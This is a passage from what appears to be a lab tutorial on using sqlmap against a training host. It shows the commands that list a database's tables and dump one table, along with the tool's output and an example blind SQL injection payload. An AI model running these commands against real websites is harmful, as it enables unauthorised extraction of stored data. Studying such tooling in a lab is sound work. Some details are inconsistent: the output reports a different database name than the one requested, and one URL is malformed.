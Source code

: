 
[text removed]

        

After running the above command, we got two database names. Select the users database and fetch the tables inside of it. We will define the database after the flag -D and use the --tables flag at the end to extract all the table names.
Extracting tables

           
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]

        

Now that we have all the available table names of the database, let's dump the records present in the thomas table. To do so, we will define the database with the -D flag, the table with the -T flag, and for extracting the records of the table, we will use the --dump flag.
Extracting records from a table

           
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
